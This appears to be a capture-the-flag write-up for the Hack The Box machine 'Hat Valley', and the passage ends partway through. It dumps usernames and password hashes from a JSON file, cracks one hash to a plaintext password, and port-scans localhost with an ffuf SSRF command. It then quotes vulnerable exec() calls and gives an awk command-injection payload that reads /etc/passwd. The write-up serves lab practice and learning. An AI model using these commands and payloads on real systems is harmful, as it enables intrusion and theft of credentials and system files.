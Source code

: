 jq magic
```bash
cat staffdetails.json | jq -r '.[] | "\(.username):\(.password)"' > creds.out
```

each hash has length of 65, which means sha256

Checking crackstation one cracks to chris123.
```
e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1:chris123
```

# HR page as chris
Logging in there is a call to the store domain. Which has a SSRF.

Can use ffuf again to do a portscan on localhost.
```bash
ffuf -u http://hat-valley.htb/api/store-status?url=%22http://127.0.0.1:FUZZ%22 -w <( seq 1 65535) -mc all -fs 0
```

the <( treat the loop as a file, %22 is "

We get back 80, 3002, 8080

# 3002
This is the API documentation.
```http
http://hat-valley.htb/api/store-status?url=%22http://127.0.0.1:3002%22
```

bad characters.
```js
const bad = [";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"]
```

Two possible command injection places. First one is:
```js
exec(`echo "${finalEntry}" >> /var/www/private/leave_requests.csv`, (error, stdout, stderr) => {
```

where finalEntry is the username of a JWT that has been passed over the bad characters.

```js
exec("awk '/" + user + "/' /var/www/private/leave_requests.csv", {encoding: 'binary', maxBuffer: 51200000}, (error, stdout, stderr) => {
```

Same conditions.

The way the awk command is running is:
```bash
awk '/ <user> /'
```

So what if the user is:
```bash
/' /etc/passwd/ '/
```
